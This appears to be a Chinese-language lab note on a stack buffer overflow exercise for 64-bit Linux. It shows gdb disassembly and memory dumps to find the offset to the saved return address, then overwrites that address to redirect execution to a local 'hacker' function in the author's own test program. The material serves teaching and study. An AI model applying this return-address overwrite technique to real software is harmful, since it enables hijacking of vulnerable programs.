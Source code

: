 # stack flow hacker
## 基础知识点:
64位系统
- 压栈顺序基本为：参数从右到左（不过64位系统参数用寄存器保存），下条指令地址作为返回地址，原调用栈rbp
接着就是被调用函数的rbp位置，rsp-0xxxx给被调用函数栈利用，包括被调用函数局部变量。
- 原理：
要是能够利用栈溢出bug覆盖栈里的返回地址，变成我自己想要执行的code地址。
## 整个实验分成了3步骤,由简入深:
- 修改返回地址eip值,执行函数hancer()
1. test.c里的hacker函数:
``` asm
进入func函数，反汇编代码：

   0x00000000004005dd <+0>:	push   %rbp
   0x00000000004005de <+1>:	mov    %rsp,%rbp
   0x00000000004005e1 <+4>:	sub    $0x20,%rsp
   0x00000000004005e5 <+8>:	mov    %rdi,-0x18(%rbp)
=> 0x00000000004005e9 <+12>:	movl   $0x0,-0x10(%rbp)
   0x00000000004005f0 <+19>:	mov    -0x18(%rbp),%rcx
```
 寄存器：
 (gdb) x/10x $rbp
0x7fffffffe500:	0xffffe550	0x00007fff	0x004006b2	0x00000000
0x7fffffffe510:	0x31313131	0x31313131	0x32323232	0x33333333
0x7fffffffe520:	0x34343434	0x35353535
局部变量(gdb) p	&str
$2 = (char (*)[4]) 0x7fffffffe4f0
可见从str地址0x7ffffffe4f0到调用函数下条地址即返回地址0x7ffffffe508总共ox18，也就是24（换台机器可能就不是这个值），所以test.c确定pEIP地址的时候是数组的第24位。
再就是如何确定拷贝多少字节，
查看shellcode的内存情况：
(gdb) p	shellcode
$4 = 0x7fffffffe510 "111111112222333344445555\033\006@"
(gdb) x/10x 0x7fffffffe510
0x7fffffffe510:	0x31313131	0x31313131	0x32323232	0x33333333
0x7fffffffe520:	0x34343434	0x35353535	0x0040061b	0x00000000
0x7fffffffe530:	0x38383838	0x39393939
所以现在是将地址0x7fffffffe510内容复制到0x7fffffffe4f0，如果复制32字节，恰好将从0x7fffffffe4f0到返回地址的内容全部覆盖掉，不会出现覆盖重叠，
可以得到预期的结果，顺利的调到hacker函数。
